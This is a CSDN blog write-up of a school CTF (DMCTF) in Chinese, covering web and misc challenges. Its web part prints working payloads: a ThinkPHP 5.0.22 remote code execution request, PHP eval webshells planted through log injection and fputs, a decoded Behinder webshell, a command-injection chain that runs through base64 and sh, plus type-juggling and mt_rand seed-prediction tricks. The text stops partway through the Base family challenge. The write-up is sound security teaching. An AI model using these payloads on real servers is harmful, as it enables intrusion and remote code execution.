<!--yml
category: 未分类
date: 2022-04-26 14:48:02
-->

# DMCTF校赛思路总结_烦躁的程序员的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_48175067/article/details/110896549](https://blog.csdn.net/qq_48175067/article/details/110896549)

# DMCTF校赛思路总结

针对于校赛的一些题目的思路进行汇总。

* * *

## WEB 题：

### Weak_type：

​ 我首先是百度了一下，题中涉及到的 isset（），intval（）这两个函数，然后知道了第一关的含义就是输入一个整数并判断它是否等于 202020020，我输入之后发现不行， 程序在 if($num===“202020020”)这一行通过了，所以我就输入了 202020020.2 让他不进入 这个 IF 判断，然后就通过了第一关，第二关我是百度了一下 PHP 如何绕过 MD5 加密，然 后找到了一个 CSDN 文档上边有关于特殊字符串绕过 MD5 加密，然后就通过了第二关，第 三关则是用 HACKBAR 输入了 message=key 然后 post 提交就通过了这道题。

### THINKPHP：

​ 这道题我主要是百度了一下 think PHP5 的漏洞，然后搜到了一篇 CSDN，就按 照上边的教程，上传了一个一句话木马，然后通过蚁剑连接，打开终端输入 nev 命令取得 flag。

## MISC：

### SimpleQrcode：

​ 把 GIF 上传到一个在线分解 GIF 的网站，然后一个一个扫二维码

### 签到题：

​ 直接复制粘贴

### Fazezip：

​ 百度了一下 faze 的意思发现是伪装，然后按照一个杂项笔记，找到了 一个伪加密攻击软件，然后取得 flag。

### Base family：

​ 就是根据密文特征然后在 base 的在线解码网站不断破解，最后取得 flag。

### 编码之王：

​ 就是根据编码特点不断在在线网站解密。

### ARCHPR：

​ 通过暴力攻击软件进行密码破解，然后获取到里边的图片，感觉像是 LSB 隐写， 于是通过 lsb.Py python 脚本取得 flag。

### Outguess：

​ 通过 Kali 自带的 outguess 工具解出了一个文档，然后感觉提示信息像是 R13 编 码，然后在在线网站解密获取提示信息，然后在搜索提示信息的那个编码，解出 flag。

### Steghide：

​ 根据杂项笔记发现了这个题目名字的工具，然后去 KALI 安装这个工具运 行，取得了一个有反向感叹号和问号的文档，感觉像是 ook 编码，但是在网站上不管咋着运 行都不对，然后就把反向的感叹号和问号给反转了一下，再在网站上解密一下获得 flag。

### SSTV：

​ 百度了一下提示信息发现是无线电之类的，然后下载了一个无线电工具MMSSTV，播放了一 下音频获得 flag。

* * *

以上则为校赛做出的题的一些思路。(第一次写思路总结，当时没有及时记录，导致写的过于简单。)

## 本小组大佬的详细思路

## WEB

### weak_type

源码：

```
PHP
<?php

show_source(__FILE__);
include('class.php');

//level1 

if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="202020020"){
        die("no no no!");
    }
    if(intval($num,0)===202020020){
        echo "<br> level 1 Ok <br>";
    }else{
        die('what are you doing?');
    }
}else{
    die();
}

//level 2

if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];
    if($v1 != $v2 && md5($v1)==md5($v2)){
        echo "<br> level 2 Ok <br>";
    }else{
        die('Are you kidding me ?');
    }
}else{
    die();
}

//level 3 

if (isset($_POST['message'])) {
    $message = json_decode($_POST['message']);
    if ($message->key == $key) {
        echo "<br> Wow you got it !!! <br>";
        echo file_get_contents('/flag');
    } 
    else {
        die("fail");
    }
 }
else{
     echo "~~~~";
 } 
```

**第一关**利用intval()函数特性：直到遇上数字或正负符号才开始做转换。所以构造`num=202020020a`，即可。

> intval函数有个特性:”直到遇上数字或正负符号才开始做转换，再遇到非数字或字符串结束时(\0)结束转换”,在某些应用程序里由于对intval函数这个特性认识不够,错误的使用导致绕过一些安全判断导致安全漏洞

**第二关**利用PHP处理哈希字符串时会把”0E”开头的哈希值解释为0，所以选择两个值在md5加密后是以0E开头即可。payload：`v1=QNKCDZO&v2=240610708`，这篇博客中还进一步的讲解了一些[md5函数的漏洞](https://blog.csdn.net/qq_19980431/article/details/83018232)。

**第三关**进行`$message->key`和`$key`进行判断，`$key`之前没有声明过故值为空，所以传入的`message`也为空即可。post中传入`message=` 即可。

**完整payload**：

url: `http://dmctf.vaala.cloud:28113/?num=202020020a&v1=QNKCDZO&v2=240610708`

post: `message=`



### thinkphp

看到框架首先去搜索框架的漏洞，参考了[[框架漏洞]Thinkphp系列漏洞【截至2020-07-20】](https://blog.csdn.net/qq_37865996/article/details/107468816)

这道题利用ThinkPHP5.0.22版本的漏洞可以执行远程代码。Thinkphp在实现框架中的核心类Request的method方法实现了表单请求伪装。但由于对`$_POST[‘_method’]`属性校验不严格，导致攻击者可以通过变量覆盖掉Request类的属性并结合框架特性实现对任意函数的调用，从而实现远程代码执行。

测试payload：

**url**： `?s=captcha`

**post**： `_method=__construct&filter=system&method=get&server[REQUEST_METHOD]=whoami`

虽然报错但是最上方输出了`www-data`



根据题目中的提示**flag在环境变量中**，所以在网上查询linux系统输出环境变量的语句：

```
SHELL
env 
```

最终获取到flag的payload：

url： `?s=captcha`

post： `_method=__construct&filter=system&method=get&server[REQUEST_METHOD]=env`

在输出末尾即是flag。



### fungame

打开是个游戏当然要玩一玩了在线地址：https://justdui.github.io/。

我先下了源码到本地康一康，查看源码在`game.js`中第122行中：

```
JAVASCRIPT
nextLevel = (nextLevel+1)%11; 
```

`nextlevel`根据变量名猜想是下一关的值，直接一个一个试，发现第10关入场动画不同，而且又一个大波斯，感觉就是最后一关，再将代码：

```
JAVASCRIPT
class PlayerData
{
    // track player data between levels (when player is destroyed)
    constructor()
    {
        this.health = 3;
        this.healthMax = 3;
        this.boomerangs = 1;
        this.bigBoomerangs = 0;
        this.coins = 0;
    }
} 
```

人物属性值中的`health`、`healthMax`、`bigBoomerangs`数量修改为9999，三个对应的属性值分别为：生命值、生命上限、大型飞镖。当然修改以后代码不会直接生效，需要随便进一关自杀游戏reload一下。

击杀第10关波斯出现flag，但是界面过小无法完整显示，按下Ctrl+滚轮调整浏览器缩放比例，获得flag。这题其实第一次做出来的时候不是这个方法，但是写题解的时候是在复现不出来了0.0



### bingxie

首先根据提示：**你需要一些特殊软件**，再看题目联想到[Behinder](https://github.com/rebeyond/Behinder/releases)，首先下载工具。

分析题目：

源码：

```
PHP
<?php
error_reporting(0);
highlight_file(__FILE__);
function filter($file) //hint in bingxie.php
{
    $file = strtolower($file);
    $file = str_replace('php', "", $file);
    $file = str_replace('data', "???", $file);
    $file = str_replace('http', "???", $file);
    $file = str_replace('file', "???", $file);
    $file = str_replace('input', "???", $file);
    $file = str_replace('filter', "", $file);
    $file = str_replace('log',"???",$file);
    return $file;
}
$file = $_GET['file'];
$md5 =substr(md5($_GET['md5']),0,6);

$file = filter($file);
if ($md5=='e95100')
{
  include $file;
}
?> 
```

代码16、17行使用GET方法获得`file`和`md5`参数，`file`经过filter函数过滤一些PHP协议，`md5`参数进行md5加密并截取前6位，判断是否为`e95100`，如果判定成功include包含`file`变量指定的文件。

首先计算什么数进行md5加密后前六位是`e95100`。参考了[Getting MD5 with certain character pattern](https://stackoverflow.com/questions/21636042/getting-md5-with-certain-character-pattern)中的回答，使用脚本：

```
PYTHON
import hashlib

target = 'e95100'
candidate = 0
while True:
    plaintext = str(candidate)
    hash = hashlib.md5(plaintext.encode('ascii')).hexdigest()
    if hash[:6] == target:
        print('plaintext:"' + plaintext + '", md5:' + hash)
        break
    candidate = candidate + 1 
```

运行之后很快得出md5加密后前六位是`e95100`的数字是`6666`。

再根据提示`hint in bingxie.php`，直接访问`/bingxie.php`只得到一句输出：**no ,you are not a real hacker !!!**说的确实没错，想到使用php协议读取文件内容，因为`str_replace`函数只进行一次替换，所以在合适的位置进行双写即可绕过。构造payload：

```
http://网址?md5=6666&file=pphphp://fifilterlter/convert.base64-encode/resource=bingxie.pphphp 
```

得到base64加密的文件，扔到CyberChef里面解码（附上CyberChef的[github项目地址](https://github.com/gchq/CyberChef)）：

```
PD9waHANCkBlcnJvcl9yZXBvcnRpbmcoMCk7DQpzZXNzaW9uX3N0YXJ0KCk7DQovL+WmguaenOaOpeaUtuWIsHBhc3Plj4LmlbDvvIzliJnkvJrnlJ/miJAxNuS9jeeahOmaj+acuuenmOmSpe+8jOWtmOWCqOWIsHNlc3Npb27kuK0NCiRhID0gJF9HRVRbJ2EnXTsNCiRiID0gJF9HRVRbJ2InXTsNCmlmKCRhIT0kYiYmbWQ1KCRhKT09bWQ1KCRiKSkNCnsNCiAgICBlY2hvICJ5b3UgYXJlIHJpZ2h0IjsNCn0NCmVsc2V7DQogICAgZGllKCJubyAseW91IGFyZSBub3QgYSByZWFsIGhhY2tlciAhISEiKTsNCn0NCg0KaWYgKGlzc2V0KCRfR0VUWydzZWNyZXQnXSkpDQp7DQogICAgJGtleT1zdWJzdHIobWQ1KHVuaXFpZChyYW5kKCkpKSwxNik7DQogICAgJF9TRVNTSU9OWydrJ109JGtleTsNCiAgICBwcmludCAka2V5Ow0KfQ0KDQplbHNlDQp7DQogICAgJGtleT0kX1NFU1NJT05bJ2snXTsNCg0KICAgICRwb3N0PWZpbGVfZ2V0X2NvbnRlbnRzKCJwaHA6Ly9pbnB1dCIpOw0KDQogICAgaWYoIWV4dGVuc2lvbl9sb2FkZWQoJ29wZW5zc2wnKSkNCiAgICB7DQogICAgICAgICR0PSJiYXNlNjRfIi4iZGVjb2RlIjsNCiAgICAgICAgJHBvc3Q9JHQoJHBvc3QuIiIpOw0KICAgICAgICANCiAgICAgICAgZm9yKCRpPTA7JGk8c3RybGVuKCRwb3N0KTskaSsrKSB7DQogICAgICAgICAgICAgICAgICRwb3N0WyRpXSA9ICRwb3N0WyRpXV4ka2V5WyRpKzEmMTVdOw0KICAgICAgICAgICAgICAgIH0NCiAgICB9DQoNCiAgICBlbHNlDQogICAgew0KICAgICAgICAkcG9zdD1vcGVuc3NsX2RlY3J5cHQoJHBvc3QsICJBRVMxMjgiLCAka2V5KTsNCiAgICB9DQoNCiAgICAkYXJyPWV4cGxvZGUoJ3wnLCRwb3N0KTsNCiAgICAkZnVuYz0kYXJyWzBdOw0KICAgICRwYXJhbXM9JGFyclsxXTsNCiAgICBjbGFzcyBDe3B1YmxpYyBmdW5jdGlvbiBfX2NvbnN0cnVjdCgkcCkge2V2YWwoJHAuIiIpO319DQoNCiAgICBAbmV3IEMoJHBhcmFtcyk7DQp9DQo/Pg== 
```

解码后得到一个php文件：

```
PHP
<?php
@error_reporting(0);
session_start();
//如果接收到pass参数，则会生成16位的随机秘钥，存储到session中
$a = $_GET['a'];
$b = $_GET['b'];
if($a!=$b&&md5($a)==md5($b))
{
    echo "you are right";
}
else{
    die("no ,you are not a real hacker !!!");
}

if (isset($_GET['secret']))
{
    $key=substr(md5(uniqid(rand())),16);
    $_SESSION['k']=$key;
    print $key;
}

else
{
    $key=$_SESSION['k'];

    $post=file_get_contents("php://input");

    if(!extension_loaded('openssl'))
    {
        $t="base64_"."decode";
        $post=$t($post."");

        for($i=0;$i<strlen($post);$i++) {
                 $post[$i] = $post[$i]^$key[$i+1&15];
                }
    }

    else
    {
        $post=openssl_decrypt($post, "AES128", $key);
    }

    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
    class C{public function __construct($p) {eval($p."");}}

    @new C($params);
}
?> 
```

后半部分根据Behinder的[官方文档](https://xz.aliyun.com/t/2774)和博客[渗透测试-流量加密之冰蝎&蚁剑](https://blog.csdn.net/weixin_39190897/article/details/109417674)的讲解，认为这个文件是个冰蝎马，参考博客中对加密通信流程进行了讲解，链接的密码为第15行`$_GET['secret']`中的`secret`。但是php文件前半部分（代码第5-13行）还需绕过，看到md5函数可以利用上一题**weak_type**中提到的不同字符串加密后md5相同绕过。最后payload：

```
http://网址/bingxie.php?a=QNKCDZO&b=240610708 
```

使用Behinder连接。可以在根目录下找到flag。



### filerce

先看提示：**看看log里面存的什么（利用伪协议包含）**，以下是访问后页面：

```
PHP
<?php
error_reporting(0);
show_source(__FILE__);
$sandbox = '/var/www/html/sandbox/'.md5("DMCTF".$_SERVER['REMOTE_ADDR']);
mkdir($sandbox,0777,true);
chdir($sandbox);
if (isset($_GET['file'])) {
    if (strpos($_GET["file"], "base64-decode")) {
        include $_GET["file"];
    } else {
        echo "Hacker!!!";
    }
}
else{
    echo "get me a file";
}
file_put_contents("thx.log", base64_encode('http://'.$_SERVER['HTTP_HOST'].urldecode($_SERVER['REQUEST_URI'])));
echo "<br/>";
echo "You've been recorded in $sandbox/thx.log!!!!"
?> get me a file
You've been recorded in /var/www/html/sandbox/7e8c62b0ef1fa8de7542dd2272a4d021/thx.log!!!! 
```

使用文件包含查看thx.log有什么，请求访问：

```
http://网址?file=php://filter/convert.base64-decode/resource=thx.log 
```

输出了thx.log文件内容：`http://dmctf.vaala.cloud:28236/favicon.ico`，访问以后发现还是刚进来的页面。分析17行以下的代码，会打开thx.log文件，在里面写入的内容是`http://'.$_SERVER['HTTP_HOST'].urldecode($_SERVER['REQUEST_URI']`，也就是我们请求题目页面的url地址，并且多次请求以后发现log中内容成了`http://网址?file=php://filter/convert.base64-decode/resource=thx.log`。判断为竞争写入导致（因为之前做过竞争上传题目），所以在构造url中写入一句话木马：

```
http://网址?file=php://filter/<?php @eval($_POST['a']);?>convert.base64-decode/resource=thx.log 
```

使用python脚本不断写入：

```
PYTHON
#coding=utf-8
import requests
import sys
def CompeteUpload():  #上传页面
    geturl="http://dmctf.vaala.cloud:28426/?file=php://filter/<?php @eval($_POST['a']);?>convert.base64-decode/resource=thx.log"     #访问上传文件
    r1=requests.get(url=geturl)
if __name__=="__main__":
    i=10;
    while (i>0):
        i-=1;
        CompeteUpload(); 
```

尝试访问`http://网址/sandbox/7e8c62b0ef1fa8de7542dd2272a4d021/thx.log`，会下载log文件，使用base64解码以后发现一句话木马存在，直接蚁剑连接：

```
http://网址?file=php://filter/convert.base64-decode/resource=thx.log 
```

同样在根目录下找到flag。



### do_you_have_a_right_token

F12查看网页代码，发现注释中一大段php代码估计就是题目用到的：

```
PHP
<?php 
session_start();
include 'flag.php';
date_default_timezone_set('Asia/Shanghai');
if(isset($_POST['token']) && isset($_SESSION['token']) &&!empty($_POST['token'])&&!empty($_SESSION['token'])){
    if($_POST['token']==$_SESSION['token']){
        echo "PassResetSuccess! Your Flag is:".$flag;
    }else{
        echo "Token_error!";
    }
}else{
    mt_srand(time());

    $rand= mt_rand();
    $_SESSION['token']=sha1(md5($rand));
    echo "Token Generate Ok!";

}
echo '<form action="" method="POST">
    <input type="text" name="token">
    <input type="submit" value="submit">
</form>';
echo "<!--\r\n".file_get_contents(__FILE__);
?> 
```

分析一波：判断post请求中的`token`，如果不为空则与`$_SESSION['token']`判断是否相等，相等输出flag，再往下看12-16行，如果为空的话使用当前时间作为随机数的种子，生成一个随机数并进行md5和sha1函数加密并存入`$_SESSION[‘token’]`。

所以思路就是：**我们需要知道生成的那个随机数的值**，在网上搜到参考[php伪随机数](https://blog.csdn.net/zss192/article/details/104327432)，可以根据种子预测随机数。题目使用：

```
mt_srand(time()); 
```

根据第4行设置时区时间并设置随机数种子，所以在本地环境使用相同方法尝试预测随机数，但是还需考虑到本地时间和题目服务器时间不同步问题，我想到的方法是借用之前题目获得的webshell上传php文件对本地时间进行校正：

```
PHP
<?php
date_default_timezone_set('Asia/Shanghai');
echo time();
?> 
```



计算时间差为69，所以修改代码跑一遍：

```
PHP
<?php
date_default_timezone_set('Asia/Shanghai');
// echo time()-69;  这是我验证时间用的
    mt_srand(time()-69);
    $rand = mt_rand();
    echo sha1(md5($rand));
?> 
```

提交本地运行后得到的密文提交上去就可以获得flag。



### pingpingping

进入以后是一个类似终端的界面，随便输几个指令提示：**输入help获得提示**，help以后又提示只能使用test和login，进入test以后提示输入url地址，所以这个才是符合题目的`pingpingping`，可以使用通道符`|`连接执行其他命令，搜索到了疑似本题的博客[GXYCTF–PingPingPing](https://www.jianshu.com/p/fd7f9fcc9333)，猜测flag很有可能还在根目录下，所以可以执行`cat /flag`输出，模仿博客中的构造方式把payload进行base64编码，使用sh执行命令，最终payload：

```
127.0.0.1|echo$IFS$1Y2F0IC9mbGFn|base64$IFS$1-d|sh 
```

获得flag



### p3’webshell

提示给了一个链接：[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)，看了以后确实受益匪浅收获很多，但是对于这个题目来说是一个烟雾弹。（更正，是我没看后面题，后面题用到了这个提示，这篇文章会继续更新。）

源码：

```
<?php
$command=$_POST['command'];
highlight_file(__FILE__);
if(!preg_match('/\'|{|\(|\)|}|\$|_|=|1|\+|;|\./i', $command)){
    die("<script>alert('?')</script>");
}
eval($command);
?> 
```

第4行使用正则表达式匹配`$command`字符串，但是前面有一个`!`取反，所以只要payload匹配到正则表达式即可绕过。post中请求：

```
command=fputs(fopen('shell.php','w'),'<?php @eval($_POST['a']);?>'); 
```

使用蚁剑连接`http://网址/shell.php`，在根目录里找到flag。



## MISC

### Check_in

真·有手就行



### fakezip

看到题目**fakezip**翻译：假的压缩包，所以猜应该是伪加密，贴一个原理的博客：[zip伪加密](https://blog.csdn.net/u011377996/article/details/79286958)，使用010 Editor打开压缩包，



找到01修改为00，再解压压缩包，虽然提示了压缩包错误但是直接无视，获得一个flag.txt

打开以后内容是：`♬♩¶♯♬♭♬♫♫♪♬∮♬♭‖♭♬♭♬∮♬♭‖♭♬♭♫♫♯=`，音符加密虽然是第一次听说，但是百度还是可以简单找到：[文本加密为音乐符号](https://www.qqxiuzi.cn/bianma/wenbenjiami.php?s=yinyue)



### Base family

题目给出了是base家族，所以base所有种类都试一遍。base常见的种类有：`base16`、`base32`、`base58`、`base64`、`base91`。还有几种没听过的base种类可以在这个网站找到：[CTF在线工具](http://ctf.ssleye.com/)。

**原层**：

```
XUZbB{fp}U)=ql[n%GCbk9RZ7!XD$D)f1G{011LN(TSlXCJT:4nxQ[8Y#I:=k.Qi4t3/S!,N/%[I}^8jjP|0&whvi88gpQce(2lKt9ZHiT^g1.nZH,k=kjTT16pHJ_DrW,Td"^w$Q8+8T])e.llK?*z`gS:+C]llUG:z1=ekEN}8DmJf&GP<Rk:o_Jk<J.zp8%H0g7sYSTJ9p."duRBGj`g0!I+xjm(fh)]IF:>omN8=m+Xp(X0:U*8Sj5|8p._o[i0:%.qu}%_=<D 
```

**base91解码**：

```
